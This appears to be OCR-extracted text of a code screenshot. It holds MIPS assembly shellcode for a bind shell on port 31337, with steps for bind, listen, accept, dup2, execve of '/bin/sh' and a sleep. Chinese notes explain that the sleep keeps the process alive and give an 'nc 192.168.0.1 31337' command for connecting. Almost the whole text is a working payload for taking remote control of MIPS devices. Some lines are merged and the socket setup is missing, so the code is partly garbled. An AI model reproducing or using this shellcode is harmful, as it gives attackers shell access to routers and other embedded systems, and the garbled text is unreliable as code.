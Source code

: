 ```
li               $t5, 0x7a69         #port 31337        li               $t7,  -513
nor          $t7, $t7, $zero
sllv           $t7, $t7, $t6
or             $t5, $t5, $t7       sw            $t5, -32($sp)       sw     $zero,-28($sp)
sw     $zero,-24($sp)
sw     $zero,-20($sp)
or             $a0, $s0, $s0
li               $t6, -17                  nor          $a2, $t6, $zero
addi   $a1, $sp, -32
li               $v0, 4169
syscall 0x40404##### listen #####
li      $t7,0x7350
or      $a0,$s0,$s0
li      $a1,257
li      $v0,4174
syscall 0x40404##### accept #####
li      $t7,0x7350
or      $a0,$s0,$s0
slti    $a1,$zero,-1
slti    $a2,$zero,-1
li      $v0,4168
syscall  0x40404##### dup fd’s ####
li      $t7,0x7350
andi    $s0,$v0,0xffff
or      $a0,$s0,$s0
li      $t7,-3
nor     $a1,$t7,$zero
li      $v0,4063
syscall 0x40404
li      $t7,0x7350
or      $a0,$s0,$s0
slti    $a1,$zero,0x0101
li      $v0,4063
syscall 0x40404
li      $t7,0x7350
or      $a0,$s0,$s0
slti    $a1,$zero,-1
li      $v0,4063
syscall 0x40404######execve######
lui   $t7,0x2f2f
ori   $t7,$t7,0x6269
sw    $t7,-20($sp)
lui   $t6,0x6e2f
ori   $t6,$t6,0x7368
sw    $t6,-16($sp)
sw    $zero,-12($sp)
addiu $a0,$sp,-20
sw    $a0,-8($sp)
sw    $zero,-4($sp)
addiu $a1,$sp,-8
li    $v0,4011
syscall 0x40404#### sleep #####
li $v0, 4166
li $t7, 0x0368
addi $t7, $t7, -0x0304
sw $t7, -0x0402($sp)
sw $t7, -0x0406($sp)
la $a0, -0x0406($sp)
syscall 0x40404
addi $t4, $t4, 4444
```
最后要有一个sleep，不然进程就会被杀掉了
用nc 192.168.0.1 31337 进行连接